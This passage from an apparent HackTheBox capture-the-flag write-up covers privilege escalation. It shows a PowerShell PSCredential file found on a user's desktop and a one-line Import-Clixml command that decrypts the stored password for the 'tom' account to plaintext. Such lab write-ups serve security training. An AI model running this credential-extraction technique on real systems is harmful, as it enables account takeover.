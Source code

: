 ## Privilege Escalation

### Tom Creds

Within the user's directory, there's a `cred.xml` file present:

```
C:\Users\nico\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of C:\Users\nico\Desktop

28/05/2018  21:07    <DIR>          .
28/05/2018  21:07    <DIR>          ..
28/10/2017  00:59             1,468 cred.xml
16/06/2023  02:28                34 user.txt
```

When viewed, it contains credentials for the `tom` user:

{% code overflow="wrap" %}
```
C:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```
{% endcode %}

Since this is a Powershell generated XML file, we can use the `Import-Clixml` cmdlet to decode it.&#x20;

```powershell
C:\Users\nico\Desktop>powershell -c "$credentials = Import-Clixml -Path cred.xml; $credentials.GetNetworkCredential().password"
powershell -c "$credentials = Import-Clixml -Path cred.xml; $credentials.GetNetworkCredential().password"
1ts-mag1c!!!
```
